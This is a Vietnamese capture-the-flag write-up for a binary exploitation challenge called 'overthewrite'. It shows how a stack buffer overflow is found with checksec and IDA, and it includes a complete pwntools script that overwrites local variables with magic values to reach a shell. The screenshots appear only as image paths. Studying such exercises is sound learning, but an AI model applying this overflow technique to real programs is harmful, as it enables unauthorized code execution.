





**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra file thực thi:



Ta thấy file thực thi là file 64bit nên đưa vào IDA64 ta có source như sau:



Ta thấy chương trình có lệnh read cho phép đọc 0x50 ký tự vào lệnh `system("/bin/sh")` sau các câu lệnh if -> Nghĩ đến lỗ hổng bof

Dùng lệnh 'checksec' để kiểm tra:



Ta thấy CANARY đang ở trạng thái disabled nên có thể khai thác thông qua lỗ hổng bof

**2. Ý tưởng**



Ta có stack dạng như trên và có lỗi bof nên ta input từ vị trí buf theo thứ tự s1, v7, v8, v9
Vì sử dụng lệnh strcmp nên có ký tự null sau chuỗi

**3. Viết script**

Khoảng cách từ biến buf đến s1 là: 0x50 - 0x30 = 32
Khoảng cách từ v7 đến v8 là: 0x18 - 0x10 = 8 
Khoảng cách từ v8 đến v9 là: 0x10 - 0x4 = 12

```
from pwn import *

r = process("./overthewrite")

payload = b'a'*32 + b'Welcome to KCSC\x00        ' + p64(0x215241104735F10F) + p64(0xdeadbeefcafebabe) + b'a'*4 + p32(0x13371337)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

